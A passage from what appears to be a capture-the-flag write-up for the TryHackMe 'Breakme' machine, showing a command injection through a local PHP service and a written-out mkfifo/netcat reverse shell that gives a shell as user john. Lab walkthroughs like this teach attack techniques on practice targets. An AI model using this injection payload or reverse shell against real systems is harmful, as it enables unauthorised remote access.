 ![Web 9999 Special Chars](/images/tryhackme_breakme/web_9999_special_chars.webp){: width="1200" height="600" }

```console
2024/09/20 21:23:18 CMD: UID=1002  PID=1329   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:23:18 CMD: UID=1002  PID=1330   | sh -c id ${}|./: >/dev/null 2>&1 &
```

We can use the `|` character to inject commands.

First, we create a bash script with a reverse shell payload on the machine.

```console
www-data@Breakme:/tmp$ cat > /dev/shm/rev.sh << EOF
> #!/bin/bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f
> EOF
www-data@Breakme:/tmp$ chmod +x /dev/shm/rev.sh
```

Now, using the `|/dev/shm/rev.sh||` payload as the user input, we can make the application run it to get a shell as the `john` user and can read the first flag.

```console
2024/09/20 21:28:56 CMD: UID=1002  PID=1347   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:28:56 CMD: UID=1002  PID=1348   | sh -c id |/dev/shm/rev.sh|| >/dev/null 2>&1 &
2024/09/20 21:28:56 CMD: UID=1002  PID=1351   | /bin/bash /dev/shm/rev.sh
```

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.225.113] 59312
bash: cannot set terminal process group (531): Inappropriate ioctl for device
bash: no job control in this shell
john@Breakme:~/internal$ id
uid=1002(john) gid=1002(john) groups=1002(john)
john@Breakme:~/internal$ wc -c ~/user1.txt
33 /home/john/user1.txt
```
